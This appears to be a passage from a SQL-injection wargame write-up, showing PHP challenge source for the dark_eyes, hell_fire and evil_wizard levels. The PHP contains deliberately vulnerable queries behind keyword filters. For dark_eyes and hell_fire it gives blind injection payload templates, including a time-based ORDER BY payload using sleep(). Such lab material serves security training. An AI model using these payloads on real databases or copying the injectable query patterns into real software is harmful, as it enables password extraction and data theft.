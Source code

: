 ```php
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```

payload = 'or id = 'admin' and (select 1 union select ord(substr({pw},{i},1))={j})-- -

## Hell\_FIre(time based)

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|proc|union/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}";
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysqli_query($db,$query);
  while(($result = mysqli_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_hell_fire where id='admin' and email='{$_GET[email]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("hell_fire");
  highlight_file(__FILE__);
?>
```

payload = if({col} = "admin" and ascii(substr({pw},{i},1))="{j}", sleep(2) , (select {col}))

## Evil\_wizard(error base sql using exp)

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|proc|union|sleep|benchmark/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_evil_wizard where 1 order by {$_GET[order]}"; // same with hell_fire? really?
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysqli_query($db,$query);
  while(($result = mysqli_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_evil_wizard where id='admin' and email='{$_GET[email]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("evil_wizard");
  highlight_file(__FILE__);
?>
```
